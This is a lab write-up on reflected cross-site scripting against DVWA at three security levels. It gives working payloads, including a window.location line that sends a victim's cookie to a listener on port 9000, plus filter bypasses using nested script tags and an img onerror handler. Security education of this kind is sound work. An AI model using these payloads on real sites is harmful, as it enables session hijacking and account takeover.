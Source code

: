 # Cross Site Scripting (XSS) 📜

Cross site scripting is one of the injection vulnerability where malicous script is injected into vulnerable but trusted websites.

- Attacker can use xss to send malicous codes to user's browser.
- The end user's browser has no way of knowing teh script since it came from trusted source.
- Malicious scripts can access cookies, session tokens or other sensitive informations.

---
## Type of XSS
There are 3 types of cross site scripting:
  1. Reflected XSS
  2. Stored XSS
  3. DOM-Based XSS

Two new types to organize the type of XSS that can occur:

  - Server XSS
  - Client XSS

## Reflected XSS 

This vulnerability is caused when injected script is reflected off the web server in the form of email, search query, error message.

This attack requires social engineering.  User is tricked into clicking on a malicoius link , the injected code travels back to the web application. Which reflects the atatck to user's browser.

### Security Level: LOW

DVWA hosts a input field which takes character input from users. This is where XSS malicious script can be injected.

Like mentioned above, this attack can be used to steal cookies by passing the following carfted input.

```bash
<script> alert(document.cookie) </script>
```

The user provided input acts like a script, since there is no input sanitization.

```
<pre>Hello <script>alert(document.cookie)</script></pre>
```
  
Since we use alert function, the user cookie details are displayed on pop-up.

![image](https://github.com/user-attachments/assets/5eedbb9a-796b-4e96-9639-b9f68e3a3800)



Instead of just using alert function on user's browser, we can run a http server on port `9000` using below command.

![image](https://github.com/user-attachments/assets/e932019c-73bb-4a88-bd8f-080e6e963ac7)

We use the below crafted input as an input to inject into the website, window.location redirects the user to the mentioned ip address and port number and it will set the cookie to the value of user's cookie that we just read from the user browser.

```bash
<script>window.location='http://127.0.0.1:9000/?cookie='+ document.cookie</script>
```

Once the user is redirected, we can see the user's cookie containing sessionID, atatcker can use this information to login as user.

![image](https://github.com/user-attachments/assets/9a44ad8c-c25e-402a-b49c-da7ba977c375)


### Security Level: Medium

In this level, <script> is removed if it is supplied through user input.

```bash
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

The above javascript is used in this level, which indicates that "<script>" is replaced by "".

Now if we use the simple crafted input liek before `<script> alert(document.cookie) </script>`. This will not trigger a pop-up like before.

The inserted code: `<pre>Hello alert(document.cookie)</script></pre>` becomes an incomplete script because of the replace done in javascript.

We can overcome this by simply using `<script<script>>` this gets replaced to `<script>`.

```bash
<script<script>>alert(document.cookie)</script>
```

![image](https://github.com/user-attachments/assets/991ce7f7-395e-4f17-8a60-696b4dae62c8)


### Security Level: High

In this level, the script uses preg_replace() to find matching pattern and replace <script> to ''. 

```
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] )
```

Therefore, the crafted input in medium level `<script<script>>alert(document.cookie)</script>` does not work here.

![image](https://github.com/user-attachments/assets/887de375-0b5b-4f3e-a102-f7fe3e27bcfd)

```
<pre>Hello ></pre>
```

There are other tag so instead of using <script> we can use <img>

```bash
<img src/onerror=alert(document.cookie)>
```

![image](https://github.com/user-attachments/assets/c247f80d-7a35-4851-a65d-c9c6ae6d8ee7)



References taken from:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
